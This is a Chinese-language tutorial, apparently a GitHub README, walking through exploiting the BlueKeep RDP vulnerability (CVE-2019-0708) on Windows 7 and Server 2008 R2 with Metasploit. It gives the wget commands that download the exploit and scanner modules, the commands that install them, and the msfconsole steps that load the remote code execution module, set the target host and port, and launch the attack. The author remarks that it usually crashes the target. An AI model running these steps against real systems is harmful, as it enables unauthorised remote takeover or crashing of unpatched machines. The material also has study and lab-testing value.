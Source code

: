 # CVE-2019-0708

https://www.cnblogs.com/feizianquan/p/11481294.html

影响范围
 
```
Windows 7
Windows Server 2008 R2
Windows Server 2008
Windows 2003
Windows XP
```
但是这次发布的应该是msf的阉割版(毕竟人家企业版要恰饭的嘛) 所以这次的范围基本也就 win7(x64)和2008 server R2 (x64) 

## 首先更新我们的kaili

```
apt-get  install metasploit-framework
```

## 下载exp攻击模块

wget 下载

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
```
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
```
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb
```
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```
## 检查下载的文件

依次执行命令创建利用文件夹

```
mkdir -p /usr/share/metasploit-framework/modules/exploit/windows/rdp/

mkdir  -p /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/

mkdir  -p /usr/share/metasploit-framework/modules/exploits/windows/rdp/

cp rdp.rb   /usr/share/metasploit-framework/modules/exploit/windows/rdp/rdp.rb

cp rdp_scanner.rb   /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb

cp cve_2019_0708_bluekeep.rb  /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

cp cve_2019_0708_bluekeep_rce.rb   /usr/share/metasploit-framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb

```
## 重启msfconsole
```
reload_all
```
![](img/1.png)

## 我们导入2017-0708攻击模块

```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
>  这个exp 目前只有 windwos 7  /2008r2  而且是社区阉割版容易蓝屏
```

set RHOSTS 设置IP
set RPORT 设置RDP端口号 -3389
使用set target ID设置受害机机器
如果有不清楚的可以
show target 选择ID
```
![](img/2.png)
```
使用exploit开始攻击,等待建立连接
```
![](img/3.png)

BUT  我只成功的一次，然后就天天蓝屏的钙，好喝。

只能说是我太菜了没成功。
![](img/4.png)
放一张别人成功的照片。



















